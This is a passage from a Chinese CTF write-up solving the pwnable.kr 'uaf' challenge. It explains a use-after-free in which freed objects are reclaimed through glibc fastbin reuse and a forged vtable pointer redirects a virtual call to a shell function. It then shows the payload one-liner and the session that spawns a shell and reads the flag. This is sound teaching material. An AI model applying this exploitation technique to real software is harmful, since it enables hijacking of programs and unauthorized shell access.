 由于delete之后，指针没有置null，因此导致了如果占位了m和n指向的内存空间后，就可以劫持其中的指针。

如何占位呢？根据glibc的fastbin管理机制，申请大小小于0x20-0x8个字节的内存时，会从0x20的fastbin中取出对应的bin复用。而case2中我们可以new任意大小的内存，因此可以成功占位。

占位之后如何劫持控制流呢？根据之前分析的use过程，调用虚函数时，先找虚表，再根据偏移找虚表中的函数地址。由于内存已经被我们占位， 因此虚表地址我们可以伪造，对应的函数我们也可以控制了。其中，Man的虚表地址是0x401570，+8找到introducde的地址，因此如果修改虚表为0x401568，+8找到的就是giveshell的地址了。



## flag

```bash
uaf@ubuntu:~$ python -c  'print "\x68\x15\x40\x00\x00\x00\x00\x00"' > /tmp/thinkycx  | cat /tmp/thinkycx
uaf@ubuntu:~$ ./uaf 3 /tmp/thinkycx
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ ls
flag  uaf  uaf.cpp
$ cat flag
yay_f1ag_aft3r_pwning
```



## 参考

1. https://blog.csdn.net/qq_20307987/article/details/51511230
2. https://thinkycx.me/posts/2017-08-19-pwnable.kr-uaf.html